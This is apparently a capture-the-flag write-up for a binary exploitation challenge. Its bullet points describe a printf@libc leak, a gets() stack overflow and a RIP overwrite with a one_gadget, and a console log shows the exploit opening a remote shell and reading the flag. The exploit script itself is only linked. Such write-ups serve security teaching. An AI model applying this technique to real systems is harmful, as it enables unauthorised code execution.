

* 64-bit elf with PIE protection
* the binary open and give us a leak of printf@libc
* we have a stack buffer overflow because of gets()
* calculate the libc base and evaluate the remote libc using https://libc.blukat.me/

* use the buf-overflow to evrwrite RIP with one_gadgets, also we fiull the stack with `\x00` to be sure the pne_gadget work ;)
* exploit here <a href=x.py>x.py</a>
```
  $ python x.py
  [+] Opening connection to jh2i.com on port 50005: Done
  [+] leak printf: 00007f729336d800
  [+] 0x7f7293318000
  [*] Switching to interactive mode
  )?

  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x165\x93r\x7f
  $ ls -al
  total 44
  dr-xr-xr-x 1 pwn  pwn  4096 Mar 31 14:34 .
  drwxr-xr-x 1 root root 4096 Nov  8 00:37 ..
  -rw-r--r-- 1 pwn  pwn   220 Aug 31  2015 .bash_logout
  -rw-r--r-- 1 pwn  pwn  3771 Aug 31  2015 .bashrc
  -rw-r--r-- 1 pwn  pwn   655 Jul 12  2019 .profile
  -rw-r--r-- 1 root root  133 Nov  8 00:24 Makefile
  -rwxr-xr-x 1 root pwn  8888 Mar 31 14:34 challenge
  -rw-r--r-- 1 root root  330 Nov  8 00:24 challenge.c
  -rwxr-xr-x 1 root pwn    16 Mar 31 14:34 flag.txt
  $ cat flag.txt
  LLS{r0p_1s_fun}
```
